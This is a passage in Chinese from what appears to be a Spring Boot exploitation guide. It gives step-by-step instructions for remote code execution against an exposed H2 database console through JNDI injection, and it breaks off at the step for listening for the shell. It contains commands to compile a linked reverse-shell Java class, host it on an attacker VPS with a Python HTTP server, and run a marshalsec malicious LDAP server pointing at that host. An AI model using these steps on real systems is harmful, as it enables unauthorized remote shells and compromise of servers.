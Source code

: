### 0x07：h2 database console JNDI RCE

#### 利用条件：

- 存在 `com.h2database.h2` 依赖（版本要求暂未知）
- spring 配置中启用 h2 console  `spring.h2.console.enabled=true`
- 目标可以请求攻击者的服务器（请求可出外网）
- JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1（LDAP 方式）



#### 利用方法：

##### 步骤一：访问路由获得 jsessionid

直接访问目标开启 h2 console 的默认路由 `/h2-console`，目标会跳转到页面 `/h2-console/login.jsp?jsessionid=xxxxxx`，记录下实际的 `jsessionid=xxxxxx` 值。



##### 步骤二：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)  `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```bash
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。



##### 步骤三：托管 class 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。



##### 步骤四：架设恶意 ldap 服务

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```



##### 步骤五：监听反弹 shell 的端口
